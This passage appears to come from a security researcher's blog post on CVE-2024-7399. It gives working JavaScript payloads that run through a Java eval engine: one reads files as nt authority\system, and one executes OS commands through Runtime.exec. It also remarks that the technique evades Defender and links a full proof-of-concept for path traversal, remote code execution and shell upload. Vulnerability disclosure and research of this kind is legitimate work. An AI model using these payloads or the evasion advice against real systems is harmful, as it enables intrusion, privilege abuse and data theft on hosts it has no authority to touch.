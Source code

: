 Then, we can perform various actions, using Java.
For example, with this payload we can read files, as `nt authority\system`.

```javascript
try {
    var Files = Java.type('java.nio.file.Files');
    var Paths = Java.type('java.nio.file.Paths');
    var Charset = Java.type('java.nio.charset.Charset');
    var charset = Charset.forName("UTF-16LE"); // can alternate it with utf-8 depending on the file
    var path = Paths.get('C:\\Users\\david\\Desktop\\flag.txt');
    var content = new java.lang.String(Files.readAllBytes(path), charset);
    out.println(content);
} catch (e) {
    out.println('Error reading file: ' + e);
}
```

![file_read](/posts/imgs/cve/file_read_0.png)
![file_read](/posts/imgs/cve/file_read.png)

Of course, we can also pop a shell / achieve actual OS command execution.
At the time of testing this, this flies under the radar, but take care when using it, Defender might catch on the new process being spawned.

```javascript
try {
    var BufferedReader = Java.type("java.io.BufferedReader");
    var InputStreamReader = Java.type("java.io.InputStreamReader");
    var Runtime = Java.type("java.lang.Runtime");

    var process = Runtime.getRuntime().exec("whoami");
    var reader = new BufferedReader(new InputStreamReader(process.getInputStream()));

    var line;
    while ((line = reader.readLine()) !== null) {
        out.println("Command output: " + line);
    }
    process.waitFor();
} catch (e) {
    out.println("Error executing command: " + e);
}
```

![osci](/posts/imgs/cve/osci.png)

The complete POC, can be found [here](https://github.com/davidxbors/CVE-2024-7399-POC/tree/main).
It allows you to just check that the path-traversal exists, get RCE (using the eval engine) or upload your own shells.

![poc1](/posts/imgs/cve/poc1.png)
![poc2](/posts/imgs/cve/poc2.png)
![poc3](/posts/imgs/cve/poc3.png)
